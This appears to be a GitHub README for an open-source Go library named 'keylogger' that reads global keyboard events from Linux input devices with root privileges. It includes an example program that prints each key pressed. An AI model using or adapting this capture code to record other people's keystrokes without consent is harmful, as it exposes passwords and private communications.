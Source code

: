 # KeyLogger

# Description
Capture global keyboard events on Linux

# Installation
    go get github.com/MarinX/keylogger
# Notes
* Only Linux based
* Need root privilages


# Example
    package main

    import (
	    "fmt"
	    "github.com/MarinX/keylogger"
    )

    func main() {
	    devs, err := keylogger.NewDevices()
	    if err != nil {
		    fmt.Println(err)
		    return
	    }

	    for _, val := range devs {
		    fmt.Println("Id->", val.Id, "Device->", val.Name)
	    }

	    //keyboard device file, on your system it will be diffrent!
	    rd := keylogger.NewKeyLogger(devs[3])

	    in, err := rd.Read()
	    if err != nil {
		    fmt.Println(err)
		    return
	    }

	    for i := range in {

		    //we only need keypress
		    if i.Type == keylogger.EV_KEY {
			    fmt.Println(i.KeyString())
		    }
	    }
    }

# Creating key sniffer
* [sniffing global keyboard eventy in go](https://medium.com/@marin.basic02/sniffing-global-keyboard-events-in-go-e5497e618192/)


# License
This library is under the MIT License
# Author
Marin Basic 

